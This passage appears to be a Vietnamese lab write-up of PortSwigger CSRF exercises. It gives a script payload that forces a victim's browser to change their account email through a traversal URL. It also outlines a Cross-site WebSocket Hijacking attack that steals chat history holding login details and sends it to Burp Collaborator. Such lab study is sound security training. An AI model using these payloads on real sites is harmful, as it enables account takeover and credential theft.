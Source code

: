 => tức là, kể cả khi request submit comment được gửi từ một trang bất kì, thì trình duyệt vẫn bao gồm cả thông tin cookie của người dùng comment

thêm nữa, khi thử gửi req GET thay đổi email, trình duyệt vẫn cho phép người dùng thay đổi email thành công.

- craft payload: 

```
<script>
    document.location = "https://0a35009a04ad453f808603a400b80013.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```

![image-20250603122142511](./image/image-20250603122142511.png)





### [Lab 8: SameSite Strict bypass via sibling domain](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)

**Lab des:** 

Tấn công Cross-site WebSocket Hijacking (CSWSH) vào tính năng Live chat để:

- Lấy lịch sử chat của nạn nhân (chứa tài khoản đăng nhập).
- Gửi thông tin đó về Burp Collaborator.
- Đăng nhập vào tài khoản của nạn nhân bằng thông tin vừa đánh cắp.
